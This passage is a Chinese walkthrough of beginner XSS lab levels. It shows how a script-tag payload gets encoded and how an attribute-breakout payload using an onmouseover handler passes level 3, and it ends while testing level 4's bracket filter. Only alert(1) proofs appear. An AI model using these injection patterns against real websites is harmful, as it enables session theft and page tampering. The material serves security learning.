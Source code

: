 

再输入第二关的绕过

```
"><script>alert(1)</script>
```



发现

```
<input name=keyword  value='&quot;&gt;&lt;script&gt;alert(1)&lt;/script&gt;'>
```



没有用

上网看资料，说使用onmouseover进行构造利用

onmouseover事件会在鼠标指针移动到指定的元素上发生



所以直接

```
xx' onmouseover='alert(1)
```



但是结果会变成

```
<input name=keyword  value='xx' onmouseover='alert(1)'>
```



改一下alert

```
xx' onmouseover='alert(1)
```



过关



### 4.

还是一样进行测试

```
<script>alert(1)</script>
```



可以发现结果变成

```
<input name=keyword  value="scriptalert(1)/script">
```
